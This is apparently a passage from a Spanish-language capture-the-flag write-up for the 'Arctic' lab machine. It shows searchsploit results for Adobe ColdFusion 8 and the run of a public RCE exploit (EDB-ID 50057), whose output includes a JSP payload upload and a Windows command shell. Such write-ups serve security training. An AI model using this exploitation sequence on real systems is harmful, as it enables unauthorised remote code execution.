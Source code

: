 ## Buscando vulnerabilidades

Si abro el navegador e intento acceder al puerto 8500 de esa IP; `http://10.10.10.11`, le cuesta un poco pero parece que tengo directory listing. Y en `http://10.10.10.11:8500/CFIDE/administrator/` llego a una panel de inicio de sesión. Parece que estamos ante un `Adobe ColdFusion 8`.

![ColdFusion]({{ 'assets/img/writeups/Arctic/coldfusion.png' | relative_url }}){: .center-image }

Buscaré credenciales por defecto y vulnerabilidades asociadas.

```sh
❯ searchsploit coldfusion 8
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                                                                   | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                                                                | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                                                                   | multiple/remote/16985.rb
... SNIP ....
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                                                                    | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                                                                                   | cfm/webapps/50057.py
... SNIP ....
```

Además si busco por internet **adobe coldfusion 8 exploit** encuentro una primera entrada en la página **exploit-db** -el comando searchsploit recoge los exploits de esta página-. Corresponde al EDB-ID: 50057, es decir, el mismo del bloque de arriba (del RCE).  
Parece un script creado especificamente para esta máquina, ya que el propio script en python lleva la IP objetivo de Arctic. Cambio la IP local - a la mía- y lanzo el exploit:

```sh
❯ python3 coldfusion.py

Generating a payload...
Payload size: 1497 bytes
Saved as: a7c55f029b324c3686507e5a1876b043.jsp

Priting request...
Content-type: multipart/form-data; boundary=3d7e25ded00e46f7b6149de9af887ec2
Content-length: 1698
... SNIP ....

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```
